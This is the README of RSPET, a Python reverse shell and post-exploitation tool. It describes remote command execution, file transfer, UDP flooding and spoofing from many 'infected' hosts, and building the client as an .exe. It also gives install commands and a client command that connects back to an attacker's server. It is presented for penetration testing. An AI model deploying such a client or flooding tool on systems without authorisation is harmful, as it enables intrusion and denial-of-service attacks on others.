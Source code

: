 # RSPET

![MIT Licence](https://img.shields.io/badge/Licence-MIT_Licence-red.svg?style=plastic)
[![Python 2.7](https://img.shields.io/badge/Python-2.7-yellow.svg?style=plastic)](https://www.python.org/)
[![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg?style=plastic)](https://www.python.org/)
![v1.0.0](https://img.shields.io/badge/Release-v0.4.0-orange.svg?style=plastic)
![Maintained](https://img.shields.io/badge/Maintained-Yes-green.svg?style=plastic)
[![Twitter](https://img.shields.io/badge/Twitter-@TheRSPET-blue.svg?style=plastic)](https://twitter.com/theRSPET)

> RSPET (Reverse Shell and Post Exploitation Tool) is a Python based reverse shell equipped with functionalities that assist in a post exploitation scenario.

DISCLAIMER: This software is provided for educational and PenTesting purposes and as a proof of concept. The developer(s) do not endorse, incite or in any other way support unauthorized computer access and networks disruption.

Current Version: `v1.0.0`

Follow: [@TheRSPET](https://twitter.com/TheRSPET) on Twitter for updates.

Documentation : [rspet.readthedocs.io](http://rspet.readthedocs.io)

## Features

* Remote Command Execution[1]
* TLS Encryption of the Server-Client communication
* Built-in File/Binary transfer (both ways) over the Encrypted traffic
* Built-in UDP Flooding tool
* Built-in UDP Spoofing tool[2]
* Multiple/All Hosts management; order File/Binary transfer and UDP Flood from Multiple/All connected Hosts
* Modular Code Design to allow easy customization
* Client update mechanism
* Client script is tested and is compatible with PyInstaller (can be made into .exe)[3]
* Full server side Plug-in support[4]
* Plug-in management, including the ability to Install(Download) and Dynamically Load Plug-ins.
* RESTful API for the Server Module

*[1]The skeleton for the client came from [primalsecurity.net](http://www.primalsecurity.net) so if you like this pack of scripts you'll probably love what they do

*[2]UDP Spoofing uses RAW_SOCKETS so in order to utilize it, the client has to run on an OS that supports RAW_SOCKETS (most Unix-Based) and with root privileges. Finally, most of the ISPs have implementations in place that will either drop or re-structure spoofed packets

*[3]Again check [primalsecurity.net's](http://www.primalsecurity.net) perfect blogpost about producing an .exe

*[4]Detailed documentation on creating Plug-ins available in [Online Documentation](http://rspet.readthedocs.io/en/latest/dev/)!

## Deployment:

* `rspet_server.py` is situated at the attacker's machine and running to accept connections
* `rspet_client.py` is situated in the infected machine(s) and will initiate the connection and wait for input.

## Installation

In order to install RSPET's Server Module:
```sh
pip install --user rspet-server
```
This will take care of all the core dependencies. In order install REST API's dependencies:
```sh
pip install --user rspet-server[rest]
```
Finally to setup the needed directories files and permissions:
```sh
sudo env "PATH=$PATH" rspet-server-setup
```

## Execution:

* Server:
    ```sh
    rspet_server [-c #clients, --ip ipToBind, -p portToBind]
    ```
max_connections defaults to 5 if left blank

* RESTful API:
    ```sh
    rspet-server-rest [-c #clients, --ip ipToBind, -p portToBind]
    ```

* Client:
    ```sh
    python rspet_client.py <server_ip> [server_port]
    ```

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

## ASCIICAST

[![asciicast](https://asciinema.org/a/b94jozlbub4a3gir7oq6owlno.png)](https://asciinema.org/a/b94jozlbub4a3gir7oq6owlno?autoplay=1)

## Distros
> A list of Distros that contain RSPET

* [BlackArch Linux](http://blackarch.org/tools.html) (as of version 2016.04.28)
* [ArchStrike](https://archstrike.org/packages/search/rspet)

## As Featured in

* [seclist.us](http://seclist.us/rspet-reverse-shell-and-post-exploitation-tool.html)
* [sillycon.org](http://www.sillycon.org/stories/article/github-panagiksrspet-rspet-reverse-shell-and-post-exploitation-tool-is-a-python-based-reverse-shell-equipped-with-functionalities-that-assist-in-a-post-exploitation-scenario)
* [digitalmunition.me](https://www.digitalmunition.me/2016/04/rspet-reverse-shell-post-exploitation-tool/)
* [n0where.net](https://n0where.net/reverse-shell-post-exploitation-tool/)
* [kitploit.com](http://www.kitploit.com/2016/05/rspet-python-reverse-shell-and-post.html)
* [Hakin9 IT Security Magazine](https://www.facebook.com/hakin9mag/posts/1376368245710855)

## Todo

- [x] Add TLS encryption in order to:
  - [x] Replace XORing (and subsequently obfuscation with encryption)
  - [ ] Verify the "authenticity" of clients
    - [ ] A mechanism to issue and verify client certificates
    - [ ] A mechanism to recognize compromised client certs
- [x] Add a Plug-in system to client (a more compact one)
 - [x] Add remote installation of Plug-ins to client
 - [ ] Add installed Plug-ins report from client to server
 - [ ] Add check server side that a client plugin is present at the client before execution
- [ ] Add UDP Reflection functionality
- [ ] Provide more settings via config file
- [ ] Re-introduce multythreading when handling multiple hosts.
- [ ] Add support for command overridding in server plugins

## Styleguide

This project is following [Google's Python Styleguide](https://google.github.io/styleguide/pyguide.html).

## Contribution Opportunities

This project is open for contributors. If you have implemented a new feature, or maybe an improvement to the current code feel free to open a pull request. If you want to suggest a new feature open an issue. Additionally Testers are needed to run a few standard scenarios (and a few of their own maybe) to decrease the chance a bug slips into a new version. Should there be any interest about testing a `beta` branch will be created (where code to be tested will be uploaded) along with a list of scenarios. For a full guide on contribution opportunities and guides check out [the "Contributing" chapter on RSPET's Online Documentation](http://rspet.readthedocs.io/en/latest/contribute/)

## Author - Project Owner/Manager

[panagiks](https://twitter.com/panagiks)

## Co-Author

[dzervas](https://dzervas.gr) -- Code (Server OO-redesign, Server Plug-in system implementation, bug reports, bug fixes)

## Contributors

* [b3mb4m](https://github.com/b3mb4m) -- Code (tab.py and bug fixes)
* [junzy](https://github.com/junzy) -- Docstings (udp_spoof & udp_spoof_send)
* [gxskar](https://github.com/gxskar) -- Documentation (ASCIICAST of RSPET's basic execution)
* [n1zzo](https://github.com/n1zzo) -- Bug Report & Fix (PR [#31](https://github.com/panagiks/RSPET/pull/31))
* [tunnelsnake](https://github.com/tunnelsnake) -- EXE Client compilation
* [dPliakos](https://github.com/dPliakos) -- Logging & Bug fixes
* [KostasPakas17](https://github.com/KostasPakas17) -- Client profiles & Bug fixes

## License

MIT

## Free Cake

                                       i.
                                       .7.
                                      .. :v
                                     c:  .x
                                      i.::
                                        :
                                       ..i..
                                      #MMMMM
                                      QM  AM
                                      9M  zM
                                      6M  AM
                                      2M  2MX#MM@1.
                                      0M  tMMMMMMMMMM;
                                 .X#MMMM  ;MMMMMMMMMMMMv
                             cEMMMMMMMMMU7@MMMMMMMMMMMMM@
                       .n@MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
                      MMMMMMMM@@#$BWWB#@@#$WWWQQQWWWWB#@MM.
                      MM                                ;M.
                      $M                                EM
                      WMO$@@@@@@@@@@@@@@@@@@@@@@@@@@@@#OMM
                      #M                                cM
                      QM                                tM
                      MM                                CMO
                   .MMMM                                oMMMt
                  1MO 6MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM iMM
                 .M1  BM                                VM  ,Mt
                 1M   @M .............................. WM   M6
                  MM  .A8OQWWWWWWWWWWWWWWWWWWWWWWWWWWW0Az2  #M
                   MM                                      MM.
                    @MMY                                vMME
                      UMMMbi                        i8MMMt
                         C@MMMMMbt;;i.......i;XQMMMMMMt
                              ;ZMMMMMMMMMMMMMMM@A;.

                    The Cake is a Lie. But it has been a Year :)
